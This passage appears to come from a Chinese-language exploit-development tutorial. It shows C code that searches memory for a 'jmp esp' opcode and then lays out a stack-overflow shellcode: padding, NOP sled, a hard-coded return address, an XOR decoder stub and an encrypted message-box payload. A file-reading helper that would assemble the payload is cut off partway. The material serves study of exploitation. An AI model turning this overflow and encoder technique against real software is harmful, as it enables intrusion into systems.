 ```
	for(position=0;!done_flag;position++)
	{
		try
		{
			if(ptr[position]==0xFF &&ptr[position+1]==0xE4)
			{
				int address=(int)ptr+position;
				printf("OPCODE found at 0x%x\n",address);
			}
		}
		catch(...)
		{
		int address=(int)ptr+position;
		printf("END OF 0x%x\n",address);
		done_flag=true;
		}
	}
	return 0;
}
```

如下图，获得机器码，挑选第一个地址0x77d29353，构建我们的shellcode

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-2/2-1.png)


初步设想shellcode的结构为：

`填充数据(长度44)+偏移长度+jmp esp的机器码+解码器+加密的弹框shellcode+结束字符`

具体数据为：

`"\x34\x33\x32\x31“*11+"\x90\x90\x90\x90\x90\x90\x90\x90"+"\x53\x93\xD2\x77"+"\x83\xC2\x14\x33\xC9\x8A\x1C\x0A\x80\xF3\x44\x88\x1C\x0A\x41\x80\xFB\x91\x75\xF1"+加密的弹框shellcode+\xD5`

通过程序自动实现此过程，代码如下：

```
#include <windows.h>
size_t GetSize(char * szFilePath)
{
	size_t size;
	FILE* f = fopen(szFilePath, "rb");
	fseek(f, 0, SEEK_END);
	size = ftell(f);
	rewind(f);
	fclose(f);
	return size;
}
unsigned char* ReadBinaryFile(char *szFilePath, size_t *size)
{
	unsigned char *p = NULL;
	FILE* f = NULL;
	size_t res = 0;
	*size = GetSize(szFilePath);
	if (*size == 0) return NULL;		
	f = fopen(szFilePath, "rb");
	if (f == NULL)
	{
		printf("Binary file does not exists!\n");
		return 0;
	}
	p = new unsigned char[*size];
	rewind(f);
	res = fread(p, sizeof(unsigned char), *size, f);
	fclose(f);
	if (res == 0)
```